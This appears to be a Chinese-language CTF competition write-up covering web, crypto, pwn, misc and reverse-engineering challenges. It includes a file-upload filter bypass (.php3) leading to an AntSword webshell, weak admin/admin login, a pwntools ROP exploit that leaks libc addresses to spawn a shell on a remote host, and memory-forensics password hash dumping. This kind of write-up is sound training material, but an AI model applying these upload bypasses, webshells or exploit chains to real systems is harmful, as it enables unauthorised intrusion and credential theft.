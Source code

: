 # WEB

### 题目名字不重要反正题挺简单的
直接传参file=phpinfo，flag被写到环境变量

![img1](./img/img1.png)

## NewWebsite

扫描目录扫到/admin

![img2](./img/img2.png)

访问后弱密码admin/admin登录

发现有?r=manageinfo页面可以上传文件，但文件名被限制，传php3即可绕过，然后antsword连接

![img3](./img/img3.png)


# CPYPTO

### 古典美++

题目说是维吉尼亚密码，直接爆破密钥即可

![img4](./img/img4.png)


# pwn

### pwn_printf

栈溢出，通过puts泄露函数地址，计算偏移量得到system函数地址来get shell

exp如下：

```python
from pwn import *
context.log_level = 'debug'
p = remote('47.111.104.169',56706)
elf = ELF('./pwn_printf')
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']
pop_rdi_ret = 0x0000000000401213
pop_rsi_ret = 0x000401211
ret_addr = 0x4007C6
scanf = 0x004006A0

p.recvuntil("interesting")
for i in range(16):
	p.sendline("32")

payload1 = 'a'*0x8 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(pop_rdi_ret) + p64(0x40) + p64(ret_addr)
p.sendline(payload1)
p.recvline()

puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
print (hex(puts_addr))

payload2 = 'a'*0x8 + p64(pop_rdi_ret) + p64(0x0401D99) +p64(pop_rsi_ret) +p64(0x06030A0)+p64(0)+ p64(scanf) + p64(pop_rdi_ret) + p64(0x20)+ p64(ret_addr+1)
p.recv()
str1 = int(b'/bin'[::-1].encode('hex'),16)
str2 = int(b'/sh\x00'[::-1].encode('hex'),16)

p.sendline(payload2)
sleep(0.5)
p.sendline(str(str2))
sleep(0.5)

payload3 = 'a' * 0x8 + p64(pop_rdi_ret) + p64(0x0401D99) + p64(pop_rsi_ret) + p64(0x06030A4) + p64(0) + p64(scanf) + p64(ret_addr)
p.send(payload3)
p.sendline(str(n2))

payload4 = 'a' * 0x8 + p64(pop_rdi_ret) + p64(0x06030A0) + p64(puts_addr-0x2a300)
sleep(0.5)
p.sendline(payload4)
p.interactive()

```

![img5](.\img\pwn.png)

# MISC

## 颜文字之谜

通过流量分析可以导出index-demo.html
在源码中发现颜文字

![img5](.\img\img5.png)

开始以为是颜文字编码，后来发现有base64隐写，用stegsnow可以输出flag样式

base64隐写脚本
```
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('C:/Users/kai/Desktop/base.txt', 'rb') as f:
    bin_str = ''
    for line in f.readlines():
        stegb64 = ''.join(line.split())
        rowb64 =  ''.join(stegb64.decode('base64').encode('base64').split())
        offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
        equalnum = stegb64.count('=') #no equalnum no offset
        if equalnum:
            bin_str += bin(offset)[2:].zfill(equalnum * 2)
        print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])
```

结果是key:"lorrie"

输出内容猜测是摩斯密码，解码后得到flag


## passwd

是一道内存取证题

```
python vol.py -f ./my_mem/passwd.raw --profile=Win7SP1x86_23418 hashdump
```

> Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
> Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
> CTF:1000:aad3b435b51404eeaad3b435b51404ee:0a640404b5c386ab12092587fe19cd02:::

CTF密码解码出来是qwer1234，然后MD5就是flag

## 虚实之间

明文攻击，爆出压缩包密码
```123%asd!O```
然后栅栏密码解码得到flag

## 隐藏的秘密

用diskgenius打开可以看到

![img6](.\img\img6.png)


```
volatility -f 1.vmem --profile=Win2003SP1x86 --profile=系统版本 printkey -K "SAM\Domains\Account\Users\Names"
```

于是导出用户名和密码，批量解MD5，最后尝试密码为```NIAIWOMA```的账户和密码MD5
是flag


## RE

### easy_c++

简单异或直接脚本跑
```
a="7d21e<e3<:3;9;ji t r#w\"$*{*+*$|,"
b=""
for i in range(len(a)):
    b+=chr(ord(a[i])^i)
print(b)
```

### easyre

动态调试，一位一位爆出来

### ReMe

```
import hashlib

list = [
 'e5438e78ec1de10a2693f9cffb930d23',
 '08e8e8855af8ea652df54845d21b9d67',
 'a905095f0d801abd5865d649a646b397',
 'bac8510b0902185146c838cdf8ead8e0',
 'f26f009a6dc171e0ca7a4a770fecd326',
 'cffd0b9d37e7187483dc8dd19f4a8fa8',
 '4cb467175ab6763a9867b9ed694a2780',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'cffd0b9d37e7187483dc8dd19f4a8fa8',
 'fd311e9877c3db59027597352999e91f',
 '49733de19d912d4ad559736b1ae418a7',
 '7fb523b42413495cc4e610456d1f1c84',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'acb465dc618e6754de2193bf0410aafe',
 'bc52c927138231e29e0b05419e741902',
 '515b7eceeb8f22b53575afec4123e878',
 '451660d67c64da6de6fadc66079e1d8a',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'fe86104ce1853cb140b7ec0412d93837',
 'acb465dc618e6754de2193bf0410aafe',
 'c2bab7ea31577b955e2c2cac680fb2f4',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'f077b3a47c09b44d7077877a5aff3699',
 '620741f57e7fafe43216d6aa51666f1d',
 '9e3b206e50925792c3234036de6a25ab',
 '49733de19d912d4ad559736b1ae418a7',
 '874992ac91866ce1430687aa9f7121fc'
 ]

def decode(n):
    result = []
    while n != 1:
        if n%2:
            n=n*3+1
        else:
            n=n//2
        result.append(n)
    return result

if __name__ == "__main__":
    for i in range(33,128):
        result = decode(i)
        string = ''
        for x in range(len(result)):
            string += str(result[x])
            string += str(result[(len(result) - x - 1)])
        md5 = hashlib.md5()
        md5.update(string.encode())
        md5 = md5.hexdigest()
        for line in range(27):
            if md5 == list[line]:
                print line,'->',chr(i)
```
然后按顺序排序MD5即可

